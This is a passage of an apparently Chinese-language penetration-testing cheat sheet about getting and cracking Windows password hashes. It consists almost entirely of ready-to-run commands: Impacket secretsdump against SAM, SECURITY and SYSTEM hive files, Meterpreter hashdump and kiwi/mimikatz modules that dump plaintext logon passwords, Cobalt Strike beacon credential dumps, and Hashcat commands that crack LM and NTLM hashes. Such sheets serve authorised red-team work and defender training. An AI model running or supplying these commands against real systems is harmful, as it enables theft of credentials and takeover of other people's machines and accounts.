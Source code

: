 #### Impacket

```
python3 secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL
```

### Meterpreter获取Hash

提前先通过msf获得shell

获得Meterpreter的session会话

Hashdump

```msf
meterpreter > run post/windows/gather/hashdump
```

在msf里

```
load kiwi
creds_all     # 列举系统中的明文密码
lsa_dump_sam  # 读取sam文件
kiwi_cmd -h   # 查看基础命令
kiwi_cmd ::   # 查看有哪些模块，kiwi_cmd命令后面接mimikatz的模块命令
kiwi_cmd lsadump::sam   # 从Windows的sam文件中读取密码hash值
kiwi_cmd sekurlsa::logonpasswords # 获取明文密码
```

## CobaltStrike获取Hash

```
beacon> hashdump
beacon> logonpasswords
beacon> mimikatz sekurlsa::logonpasswords
beacon> mimikatz lsadump::sam
```

## Windows Hash破解

### Hashcat

**Hashcat 破解 LM Hash**

```bash
hashcat -a 0 -m 3000 --force 'E52CAC67419A9A224A3B108F3FA6CB6D' password.txt
```

**Hashcat 破解 NTLM Hash**

```bash
hashcat -a 0 -m 1000 --force '1F2916B7561885601287D5F693567A34' password.txt
```

## 其他密码凭证获取

